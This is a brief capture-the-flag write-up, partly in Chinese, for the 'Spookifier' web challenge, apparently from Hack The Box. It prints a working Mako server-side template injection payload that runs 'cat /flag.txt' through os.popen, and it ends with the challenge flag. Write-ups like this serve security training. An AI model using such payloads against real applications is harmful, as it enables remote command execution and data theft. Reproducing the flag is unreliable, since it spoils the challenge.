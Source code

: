 # Spookifier

:::note CHALLENGE DESCRIPTION

Difficulty: VERY EASY

There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

近日，一款应用程序掀起了一股新潮流，它能为你生成一个诡异的名字。然而，使用该程序的用户随后发现，他们的真实姓名竟也神奇地被更改，给生活带来了诸多混乱。你能帮忙终结这款应用程序的恶作剧吗？

:::

尝试直接访问

![img](img/image_20250417-231750.png)

分析一下题目提供的源码

![img](img/image_20250428-232803.png)

尝试打SSTI

```plaintext
${self.module.cache.util.os.popen('cat /flag.txt').read()}
```

![img](img/image_20250428-232834.png)

```flag
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```
